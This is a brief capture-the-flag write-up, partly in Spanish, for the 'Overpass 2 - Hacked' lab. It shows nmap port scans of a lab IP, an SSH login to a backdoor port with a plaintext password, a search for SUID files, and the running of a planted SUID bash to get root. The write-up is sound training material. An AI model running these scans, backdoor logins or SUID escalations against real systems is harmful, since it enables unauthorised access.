 # Overpass 2 - Hacked

## Scanning

```bash
sudo nmap -sS -p- --min-rate 4000 -vvv --open -Pn -n 10.10.34.253 -oG allports
nmap -sC -sV -p 22,80,2222 -Pn -n 10.10.34.253 -oN targeted
```

![0410050528](0410050528.png)

```bash
ssh CooctusClan@10.10.34.253 -p 2222
# password = november16
```

![0410050530](0410050530.png)

Buscamos suid y encontramos un archivo que parece tener el bash con esos permisos

```bash
find / -perm -u=s 2>/dev/null
/home/james/.suid_bash -p
```

![0410050532](0410050532.png)